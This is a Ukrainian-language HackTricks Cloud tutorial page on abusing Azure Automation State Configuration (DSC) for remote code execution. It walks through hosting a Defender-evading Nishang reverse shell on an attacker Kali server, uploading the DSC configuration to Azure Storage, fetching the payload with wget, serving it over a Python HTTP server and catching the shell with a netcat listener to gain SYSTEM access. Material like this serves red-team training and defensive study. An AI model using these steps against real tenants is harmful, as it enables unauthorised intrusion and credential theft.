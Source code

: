 # Az - Виконання коду через стан конфігурації

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>

**Перевірте повний пост за посиланням: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Огляд підготовки і кроки інфраструктури віддаленого сервера (C2)

#### Огляд
Процес включає налаштування віддаленої серверної інфраструктури для розміщення модифікованого пакету Nishang `Invoke-PowerShellTcp.ps1`, під назвою `RevPS.ps1`, призначеного для обхіду Windows Defender. Пакет обслуговується з машини Kali Linux з IP `40.84.7.74` за допомогою простого Python HTTP сервера. Операція виконується через кілька кроків:

#### Крок 1 — Створення файлів
- **Потрібні файли:** Потрібні два сценарії PowerShell:
1. `reverse_shell_config.ps1`: Файл конфігурації бажаного стану (DSC), який отримує та виконує пакет. Його можна отримати з [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Сценарій для публікації конфігурації на віртуальну машину, доступний на [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Налаштування:** Змінні та параметри в цих файлах повинні бути налаштовані під конкретне середовище користувача, включаючи назви ресурсів, шляхи до файлів та ідентифікатори сервера/пакету.

#### Крок 2 — Архівування файлу конфігурації
- Файл `reverse_shell_config.ps1` стискається в архів `.zip`, щоб бути готовим для передачі до облікового запису Azure Storage.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Крок 3 — Встановлення контексту сховища та завантаження
- Зазипований файл конфігурації завантажується до попередньо визначеного контейнера Azure Storage, azure-pentest, за допомогою команди Set-AzStorageBlobContent Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Крок 4 — Підготовка Kali Box
- Сервер Kali завантажує вантаж RevPS.ps1 з репозиторію GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Сценарій редагується для вказання цільової віртуальної машини Windows та порту для зворотньої оболонки.

#### Крок 5 — Опублікувати файл конфігурації
- Виконується файл конфігурації, що призводить до розгортання сценарію зворотньої оболонки за вказаною локацією на віртуальній машині Windows.

#### Крок 6 — Розміщення вантажу та налаштування прослуховувача
- Запускається Python SimpleHTTPServer для розміщення вантажу, разом з прослуховувачем Netcat для захоплення вхідних підключень.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Заплановане завдання виконує навантаження, досягаючи привілеїв рівня SYSTEM.

#### Висновок

Успішне виконання цього процесу відкриває безліч можливостей для подальших дій, таких як витягування облікових даних або розширення атаки на кілька віртуальних машин. Посібник підтримує продовження навчання та креативність у сфері Azure Automation DSC.

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **та** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв GitHub.**

</details>

